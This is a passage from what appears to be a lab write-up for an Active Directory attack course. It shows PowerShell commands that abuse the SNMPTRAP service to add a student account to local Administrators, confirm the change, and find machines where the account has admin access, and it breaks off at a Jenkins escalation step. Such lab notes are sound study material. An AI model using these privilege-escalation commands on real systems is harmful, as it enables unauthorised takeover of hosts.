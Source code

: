 So, this is the abuse function that we need:&#x20;

```powershell
Invoke-ServiceAbuse -Name 'SNMPTRAP' -UserName "dcorp\student867" -Verbose
```

<figure><img src="../../.gitbook/assets/image (177).png" alt=""><figcaption></figcaption></figure>

Check it using this command: `Get-LocalGroupMember -Group "Administrators"`

```powershell
ObjectClass Name                       PrincipalSource
----------- ----                       ---------------
Group       dcorp\Domain Admins        ActiveDirectory
User        dcorp\student867           ActiveDirectory
User        DCORP-STD867\Administrator Local
```

### 2 - Identify a machine in the domain where studentx has local administrative access

Using Find-PSRemotingLocalAdminAccess.ps1 we can diplay machines where our student account has local admin access:

```powershell
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Verbose
```

```powershell
dcorp-adminsrv
dcorp-std867
```

### 3 - Using privileges of a user on Jenkins on 172.16.3.11:8080, get admin privileges on 172.16.3.11 - the dcorp-ci server

Go via browser on Jenkins site (172.16.3.11:8080) to Dashboard:
